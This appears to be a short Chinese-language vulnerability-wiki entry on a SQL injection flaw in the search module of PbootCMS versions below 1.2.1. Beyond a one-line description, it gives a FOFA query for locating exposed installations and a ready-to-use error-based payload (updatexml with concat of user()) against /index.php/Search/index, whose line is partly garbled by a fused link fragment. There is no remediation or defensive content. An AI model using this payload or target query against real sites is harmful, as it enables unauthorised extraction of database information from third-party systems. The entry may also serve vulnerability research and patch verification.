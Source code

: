 # PbootCMS  search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> PbootCMS < 1.2.1

## FOFA

> [!NOTE]
>
> app="PBOOTCMS"

## 漏洞复现

搜索框页面为

![image-20210702112736099](http://wikioss.peiqi.tech/vuln/image-20210702112736099.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

 Payload为

```
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```

![image-20210702112805069](http://wikioss.peiqi.tech/vuln/image-20210702112805069.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)